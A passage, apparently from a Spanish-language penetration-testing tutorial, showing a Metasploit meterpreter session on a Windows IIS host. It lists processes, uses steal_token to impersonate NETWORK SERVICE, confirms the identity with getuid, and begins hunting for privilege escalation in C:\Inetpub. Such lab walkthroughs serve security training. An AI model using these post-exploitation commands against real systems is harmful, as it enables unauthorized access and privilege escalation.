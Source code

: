 ```yaml
[-] 1055: Operación fallida: Acceso denegado.
```

```plaintext
meterpreter > ps
```

```yaml
 PID   PPID  Nombre               Arch  Sesión  Usuario                          Ruta
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                 
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    

...

 1712  396   alg.exe                                                          
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    
```

```plaintext
meterpreter > steal_token 1836
```

```yaml
yamlCopiar códigoToken robado con nombre de usuario: NT AUTHORITY\NETWORK SERVICE
```

```plaintext
meterpreter > getuid
```

```css
Usuario del servidor: NT AUTHORITY\NETWORK SERVICE
```

Ahora que hemos establecido al menos un nivel de privilegio en el sistema, es hora de escalar ese privilegio. Así que, miramos alrededor en busca de algo interesante, y en la ubicación `C:\Inetpub\` encontramos una carpeta interesante llamada `AdminScripts`. Sin embargo, desafortunadamente, no tenemos permiso para leer lo que hay dentro.

### MSF - Interacción con el Objetivo

```plaintext
c:\Inetpub>dir
```
